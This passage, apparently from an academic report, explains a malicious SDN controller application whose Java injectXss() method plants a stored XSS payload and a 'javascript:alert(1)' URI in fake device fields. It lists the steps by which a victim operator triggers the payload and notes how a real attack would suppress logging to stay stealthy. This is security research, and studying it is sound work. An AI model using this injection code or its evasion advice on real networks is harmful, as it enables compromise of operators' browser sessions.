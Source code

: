 Within the \textbf{activate()} method which will automatically be called to activate the application, the \textbf{injectXss()} function is called.
This function creates a new device (or a switch) with the default characteristics and inserts the payload selected by the attacker in all possible fields. In particular, the URI is also created in a way that can create problems for the victim. In this case the fields where the malicious payload is entered are: manufacturer, hwVersion, swVersion and serialNumber. The device store is then used to save the data of the new device created using the \textbf{createOrUpdateDevice()} function. For testing purposes and to better understand if something doesn't work as it should everything is placed inside a try-catch block, obviously in a real attack this shouldn't be inserted to ensure that the network operator does not notice nothing, as few traces as possible are left and the attack is stealthy.
\begin{lstlisting}[language=java,firstnumber=72]
    private void injectXss() {
        try {
            URI uri = new URI("javascript:alert(1)");

            DeviceId dId = pickRandomDevice().id();

            ChassisId cId = new ChassisId(5);

            DefaultAnnotations sa = DefaultAnnotations.builder().build();

            DefaultDeviceDescription deviceDescription = new DefaultDeviceDescription(uri, Device.Type.SWITCH, PAYLOAD,
                    PAYLOAD, PAYLOAD, PAYLOAD, cId, sa);
            deviceStore.createOrUpdateDevice(ProviderId.NONE, dId, deviceDescription);

            log.info("Payload injected!");

        } catch (Exception e) {
            e.printStackTrace();
            StringWriter sw = new StringWriter();
            PrintWriter pw = new PrintWriter(sw);
            e.printStackTrace(pw);
            log.info(sw.toString());
            log.info("exception!!!!!!11!!!!11!");
        }
    }
\end{lstlisting}

This is how the attack will be carried out:
\begin{itemize}
    \item The application is activated and the device containing the malicious payload is created
    \item The victim logs in to the web application
    \item The victim requests the vulnerable web page
    \item The web page is built using the payloads
    \item The victim clicks on the device icon in the topology web page
    \item The victim clicks on the malicious link
    \item The malicious payload is executed in the victim's browser.
\end{itemize}

